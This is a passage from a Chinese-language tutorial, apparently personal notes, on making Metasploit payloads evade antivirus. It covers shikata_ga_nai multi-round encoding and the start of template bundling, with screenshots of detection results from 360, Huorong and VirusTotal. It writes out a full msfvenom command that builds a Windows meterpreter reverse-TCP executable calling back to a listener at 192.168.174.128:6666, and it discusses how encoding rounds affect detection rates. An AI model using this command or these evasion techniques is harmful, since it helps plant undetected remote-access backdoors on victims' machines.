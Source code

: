 ![image-20220526190107987](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261901055.png)

火绒：

![image-20220526190513816](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261905876.png)

VT查杀成功：

![image-20220526190921570](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261909679.png)

VT查杀失败：

![image-20220526190959477](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261909529.png)

### msf自编码免杀(VT查杀率48/67)

使用`msfvenom --list encoders`可查看所有编码器。

评级最高的两个encoder为cmd/powershell_base64和x86/shikata_ga_nai，其中x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器。

使用`x86/shikata_ga_nai`生成payload，参数`-i`为编码次数，使用`-b`参数去掉payload中的空字符：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -e x86/shikata_ga_nai -b "\x00" -i 15  -f exe -o /mnt/hgfs/Share/payload2.exe
```

![image-20220526191328018](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261913186.png)

由于shikata_ga_nai编码技术是多态的，也就是说每次生成的payload文件都不一样，有时生成的文件会被查杀，有时却不会。当然这个也和编码次数有一定关系，编码次数好像超过70次就经常生成出错，但是编码次数多并不代表免杀能力强。

360和火绒都能查杀。

在virustotal.com上查杀率为48/67（原po为51/69）。

360：

![image-20220526191412121](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261914178.png)

火绒：

![image-20220526191549429](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261915497.png)

VT查杀成功：

![image-20220526191847382](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261918483.png)

VT查杀失败：

![image-20220526191857605](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205261918665.png)

### msf自捆绑免杀(VT查杀率15/69)

在生成payload时可以使用捆绑功能，使用msfvenom的`-x`参数可以指定一个自定义的可执行文件作为模板,并将payload嵌入其中，`-x`后面跟对应文件路径就可以。
